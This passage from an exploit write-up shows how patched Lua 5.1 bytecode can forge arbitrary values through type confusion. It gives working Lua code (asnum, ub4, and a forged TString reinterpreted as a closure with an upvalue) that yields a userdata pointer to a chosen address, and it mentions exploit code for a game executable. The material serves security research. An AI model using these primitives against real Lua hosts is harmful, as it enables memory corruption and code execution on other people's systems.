 The above example is somewhat intricate: because of `magic = inner`, after the call to `inner`, `luaV_execute`'s `cl` variable is set back to `inner` rather than `middle`, so `print("Hello")` actually prints `World`.

--------------------------------------------------------------------------------

The first interesting application of the above technique is to create arbitrary `TValue`s. For this, we need to recall `asnum` from earlier, and we also need a helper function for converting numbers to strings:

```lua
asnum = loadstring((string.dump(function(x)
  for i = x, x, 0 do
    return i
  end
end):gsub("\96%z%z\128", "\22\0\0\128")))

ub4 = function(x) -- Convert little endian uint32_t to char[4]
  local b0 = x % 256; x = (x - b0) / 256
  local b1 = x % 256; x = (x - b1) / 256
  local b2 = x % 256; x = (x - b2) / 256
  local b3 = x % 256
  return string.char(b0, b1, b2, b3)
end
```

The astute reader will note that `ub4` can be rewritten to work even when `string.char` is not present (the actual exploit code for RelicCOH2.exe implements `ub4` by using a lookup table to convert the individual bytes to strings of length 1, and then concatenating the strings).

With these functions in place, consider the following:

```lua
loadstring(string.dump(function()
  local magic = nil
  local function middle()
    local print = print
    local lud, upval
    local function inner()
      lud = 2^52 .. ub4(0xDEADBEEF) .."high".. ub4(2) .."padd"
      upval = 2^52 .."next".."t".."m".."pa".. ub4(asnum(lud) - 2^52 + 16 + 20)
      local upval_ptr = ub4(asnum(upval) - 2^52 + 16 + 20)
      magic = upval_ptr .. upval_ptr
    end
    inner()
    print(magic) --> userdata: DEADBEEF
  end
  middle()
end):gsub("(\100%z%z%z)....", "%1\0\0\0\1", 1))()
```

The first interesting assignment in the above is to the `lud` variable. Ignoring the `2^52 ..` for a moment, the remainder is a 128 bit string which can be interpreted as a `TValue`: four bytes containing a pointer to `0xDEADBEEF`, four unused bytes, four bytes for a `tt` value of `LUA_TLIGHTUSERDATA`, and four bytes of padding. The next interesting assignment is to the `upval` variable. Again ignoring the `2^52 ..`, the remainder can be interpreted as an `UpVal`: four bytes for `next`, one byte each for `tt` and `marked`, two bytes of padding, and then four bytes of `TValue*`. The final interesting assignment to to the `magic` variable, which is a `TString` with an 8-byte payload, and will later be reinterpreted as an `LClosure`. As we've previously seen by comparing the memory layouts, the first four bytes become a `Proto*`, and the next four bytes become an `UpVal*`.


[IEEE754-1985]: http://en.wikipedia.org/wiki/IEEE_754-1985#Representation_of_numbers
[vstruct]: https://github.com/ToxicFrog/vstruct/blob/master/vstruct/io/f.lua